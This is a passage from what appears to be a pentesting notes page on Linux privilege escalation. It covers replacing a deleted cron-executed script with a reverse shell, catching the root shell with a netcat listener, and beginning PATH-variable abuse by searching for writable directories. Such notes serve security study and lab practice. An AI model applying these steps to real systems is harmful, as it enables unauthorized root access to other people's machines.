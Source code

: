 {% hint style="info" %}
* `file.sh` is an arbitrary name used as an example. Can be another bash file or executable.
* We have to keep in mind the path of the `/etc/crontab` file
{% endhint %}

***

* Verify if the executable was deleted and create one with the same name

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate file.sh    #This will show nothing which means that was deleted
cd /home/user
nano file.sh    # The content will be a reverse shell script
```
{% endcode %}

{% hint style="info" %}
* Note that the folder we navigate to is the one that was listed in`/etc/crontab`
* To see the script of the reverse shell you can go [here](../../../scripting/reverse-shell.md#basic-bash-script)
{% endhint %}

***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will receive a root shell
</code></pre>

{% hint style="info" %}
`$port` is the port specified in the reverse shell script
{% endhint %}

## <mark style="color:orange;">Abusing PATH environment variable</mark>

* Search for any writable folder and compare it to _PATH_

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
#Example results
<strong>etc/udev  home/user  run/dbus  snap/core  sys/fs  tmp  usr/lib  var/crash
</strong>
echo $PATH
#Example results
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
</code></pre>

{% hint style="info" %}
* We note there is a home folder where we can write
* In case we haven't found anything, we have to write to `/tmp`
{% endhint %}
